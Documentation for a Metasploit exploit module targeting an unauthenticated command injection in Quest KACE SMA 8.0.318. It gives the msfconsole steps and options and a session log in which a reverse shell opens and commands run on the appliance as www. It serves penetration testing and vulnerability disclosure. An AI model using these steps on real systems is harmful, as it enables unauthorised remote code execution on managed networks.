 ## Description

  This module exploits a command injection vulnerability in Quest KACE
  Systems Management Appliance version 8.0.318 (and possibly prior).

  The `download_agent_installer.php` file allows unauthenticated users
  to execute arbitrary commands as the web server user `www`.


## Vulnerable Application
 
  [Quest KACE Systems Management Appliance](https://www.quest.com/products/kace-systems-management-appliance/) endpoint systems management solution.

  This module has been tested successfully on Quest KACE SMA K1000 version 8.0 (Build 8.0.318).


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/unix/http/quest_kace_systems_management_rce`
  3. `set ORGANIZATION <ORGANIZATION>` (default: `1`)
  4. `set AGENT_VERSION <AGENT_VERSION>` (default: `8.0.152`)
  5. `run`
  6. You should get a session


## Options

  **AGENT_VERSION**

  A valid Windows agent version must be specified. (default: `8.0.152`)

  If file sharing is enabled, the agent versions are available within the
  `\\kace.local\client\agent_provisioning\windows_platform` Samba share.

  Additionally, various agent versions are listed on the KACE website.

  **ORGANIZATION**

  Organization ID used within the appliance. (default: `1`)

  **SERIAL**

  Serial number for the appliance. By default, the module attempts to
  retrieve the serial from `/common/about.php`.


## Scenarios

  ```
  msf > use exploit/unix/http/quest_kace_systems_management_rce 
  msf exploit(unix/http/quest_kace_systems_management_rce) > set rhost 172.16.123.123
  rhost => 172.16.123.123
  msf exploit(unix/http/quest_kace_systems_management_rce) > check
  [*] 172.16.123.123:80 The target appears to be vulnerable.
  msf exploit(unix/http/quest_kace_systems_management_rce) > set ORGANIZATION 1
  ORGANIZATION => 1
  msf exploit(unix/http/quest_kace_systems_management_rce) > set AGENT_VERSION 8.0.152
  AGENT_VERSION => 8.0.152
  msf exploit(unix/http/quest_kace_systems_management_rce) > run

  [*] Started reverse TCP handler on 172.16.123.188:4444 
  [*] Sending payload (505 bytes)
  [+] Payload executed successfully
  [!] Tried to delete /tmp/agentprov/1#;/, unknown result

  492648046
  kYWSsqpLmmERqEpLazwFOTzulPvsvShY
  /kbox/kboxwww/common
  EfiuBIzdwhsSLfEpgHrRjbgjszjCkfhf
  ZGtYicImqwCnmUNGBZTpqDSPXojYXjkd
  jCmxJgLnffuOAlsAFmWygrbOhCWPCNzD
  id
  uid=80(www) gid=80(www) groups=80(www)
  uname -a
  FreeBSD k1000 11.0-RELEASE-p12 FreeBSD 11.0-RELEASE-p12 #0: Wed Aug  9 10:03:39 UTC 2017     root@amd64-builder.daemonology.net:/usr/obj/usr/src/sys/GENERIC  amd64
  ^C
  Abort session 1? [y/N]  y

  [*] 172.16.123.123 - Command shell session 1 closed.  Reason: User exit
  ```


